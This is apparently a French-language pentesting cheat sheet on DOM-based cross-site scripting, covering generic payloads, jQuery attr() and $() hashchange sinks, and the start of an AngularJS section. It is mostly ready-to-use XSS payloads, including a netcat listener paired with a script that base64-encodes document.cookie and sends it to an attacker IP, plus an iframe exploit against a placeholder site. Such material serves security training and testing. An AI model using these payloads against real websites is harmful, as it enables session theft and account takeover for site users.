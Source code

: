 # DOM

```html
<iframe src="javascript:alert(document.domain)">

<img src=x onerror="alert(document.domain)">

"><img src=x onerror=prompt(document.domain);>

#"><img src=/ onerror=alert(document.cookie)>

<svg/onload="alert(document.domain)">

xss">< ! --><svg/onload=alert(document.domain)>

<noscript><p title="</noscript><img src=x onerro=alert(1)>">
```

```html
nc -nlvp 9001


</textarea><script>fetch('http://10.11.86.29:9001?cookie=' + btoa(document.cookie) );</script>
```

## DOM XSS dans jQuery

Si vous utilisez une bibliothèque JavaScript telle que jQuery, soyez attentif aux récepteurs susceptibles de modifier les éléments DOM de la page comme `attr()`.

```html
?returnUrl=javascript:alert(document.domain)
```

Un autre puits potentiel à surveiller est la fonction `$()` de sélection de jQuery, qui peut être utilisée pour injecter des objets malveillants dans le DOM.

similaire à celui-ci :

```js
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```

Pour exploiter cette vulnérabilité classique, vous devrez trouver un moyen de déclencher un `hashchange` événement sans interaction de l'utilisateur. L'une des méthodes les plus simples consiste à diffuser votre exploit via iframe :

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

## DOM XSS dans AngularJS

Lorsqu'un site utilise l'attribut `ng-app` sur un élément HTML, celui-ci est traité par AngularJS.

Dans ce cas, AngularJS exécute le JavaScript entre des accolades doubles, qui peuvent apparaître directement dans le code HTML ou à l'intérieur des attributs.
